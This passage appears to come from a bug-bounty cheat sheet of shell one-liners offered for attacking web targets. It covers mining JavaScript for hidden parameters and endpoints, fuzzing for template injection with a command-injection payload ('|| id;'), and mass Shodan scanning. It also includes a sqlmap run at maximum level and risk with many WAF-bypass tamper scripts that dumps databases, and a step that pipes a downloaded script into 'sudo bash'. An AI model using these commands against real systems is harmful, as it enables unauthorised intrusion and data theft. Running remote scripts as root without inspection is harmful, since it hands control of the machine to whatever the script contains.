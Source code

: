### Hidden Params in JS:
```
cat subs.txt | (gau || hakrawler || waybackurls || katana) | sort -u | httpx -silent -threads 100 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done
```
### Extract sensitive end-point in JS:
```
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```
-------------------------
### SSTI:
```
for url in $(cat targets.txt); do python3 tplmap.py -u $url; print $url; done
```
```
echo target.com | gau --subs --threads 200 | httpx -silent -mc 200 -nc | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt && ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```
---------------------------
## Scan IPs
```
cat my_ips.txt | xargs -L 100 shodan scan submit --wait 0
```
## Screenshots using Nuclei
```
nuclei -l target.txt -headless -t nuclei-templates/headless/screenshot.yaml -v
```
## SQLmap Tamper Scripts - WAF bypass
```
sqlmap -u 'http://www.site.com/search.cmd?form_state=1' --level=5 --risk=3 --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes --no-cast --no-escape --dbs --random-agent
```
## Shodan Cli
```
shodan search Ssl.cert.subject.CN:"target.com" --fields ip_str | anew ips.txt
```
### Ffuf.json to only ffuf-url.txt
```
cat ffuf.json | jq | grep "url" | sed 's/"//g' | sed 's/url://g' | sed 's/^ *//' | sed 's/,//g'
```
## Update golang
```
curl https://raw.githubusercontent.com/udhos/update-golang/master/update-golang.sh | sudo bash
```
